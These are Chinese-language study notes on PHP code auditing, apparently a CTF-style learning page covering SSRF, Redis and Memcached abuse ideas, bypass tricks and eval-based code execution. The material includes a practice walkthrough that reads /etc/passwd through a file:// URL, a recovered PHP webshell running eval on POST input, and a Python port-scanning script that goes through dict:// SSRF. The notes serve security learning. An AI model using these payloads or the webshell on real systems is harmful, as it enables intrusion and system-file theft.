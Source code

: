 # 代码审计

## PHP代码审计

- 什么是代码审计：是指对源代码进行检查，寻找代码的bug，这里主要寻找可以导致安全漏洞的bug
- 代码审计的技巧（程序的两大根本：变量与函数）：
  - 根据敏感的关键字**回溯**参数的传递过程
  - 查找可控变量，**正向追踪**变量的传递过程
  - 查找敏感功能点，通读功能点代码
  - 直接通读全文代码
- 自动化审计工具：Seay、Cobra、Fortify SCA...

## SSRF漏洞

- SSRF，Server-Side Request Forgery，服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。
- 高危函数：file_get_contents()、fsockopen()、curl_exec()
- SSRF利用思路
  1. 利用curl自带的协议进行攻击：file://、http://、ftp://...
  2. 利用SSRF攻击本地服务
  3. 攻击数据库&缓存：
     1. Redis：六种利用方式 &rarr; 保存到www目录，创建webshell；创建SSH authotrized_keys文件；写计划任务（/var/spool/cron/ & /etc/cron.d/）；slave of 8.8.8.8 主从模式利用...
     2. Memcached：利用内存中的数据，读取管理员的Session。
     3. CounchDB
  4. 扫描网站的端口开启状态
- fastcgi漏洞：https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

### SSRF练习

1. 读取password所在文件：`http://oj.momomoxiaoxi.com:9090/index.php?url=file:///etc/passwd` &rarr; 一般只用于测试payload是否有效。
2. 使用dirsearch对目标进行扫描： `python dirsearch.py http://oj.momomoxiaoxi.com:9090 -e php`
3. 扫描出一个 `robots.txt` 文件，我们再用第一步的方法访问该文件 &rarr; `http://oj.momomoxiaoxi.com:9090/index.php?url=file:///var/www/html/robots.txt` &rarr; 其中 `/var/www/html/` 是Apache的根文件夹，扫描文件没有越权无法获得操作系统的根文件夹，认为Apache的入口文件夹为根文件夹
4. 在robots.txt文件中存在一个 `webshe11111111.php` 文件，我们用同样的方法访问该文件 &rarr; `view-source:http://oj.momomoxiaoxi.com:9090/index.php?url=file:///var/www/html/webshe11111111.php` 得到php源代码：

```php
<?php
$serverList = array(
    "127.0.0.1"
);
$ip = $_SERVER['REMOTE_ADDR'];
foreach ($serverList as $host) {
    if ($ip === $host) {
        if ((!empty($_POST['admin'])) and $_POST['admin'] === 'h1admin') {
            @eval($_POST['hacker']);
        } else die("You aren't admin!");
    } else die('This is webshell');
} ?>
```

5. 利用dict协议查看端口开启情况，以下为编写Python脚本：

```python
import requests

url = 'http://oj.momomoxiaoxi.com:9090/index.php?url='
defaultlen = len(requests.get(url+'dict://127.0.0.1:0/info').content)
print("defaultlen:%d"%defaultlen)

for x in range(1000):
    try:
        response = requests.get(url+'dict://127.0.0.1:%s/info'%str(x))
        if len(response.content) != defaultlen:
            print("Port %s, content: %s"%(str(x), response.content))
    except Exception as e:
        print(e)
        pass
```

6. 

## SSRF常见的绕过技巧

- 利用302跳转
- 利用DNS Rebinding
- 利用浏览器：127。0。0。1 &rarr;浏览器解析&rarr; 127.0.0.1

## 代码执行及命令执行漏洞

- 高危函数：

  - eval和assert函数：这两个函数原本作用于动态代码执行：

  ```php
  <?php 
      $a = $_REQUEST['hello'];
      eval("var_dump($a);");
  ?>
  ```

  - preg_replace函数
  - 文件包含注射

## 变量覆盖

## ChinaZ例题讲解



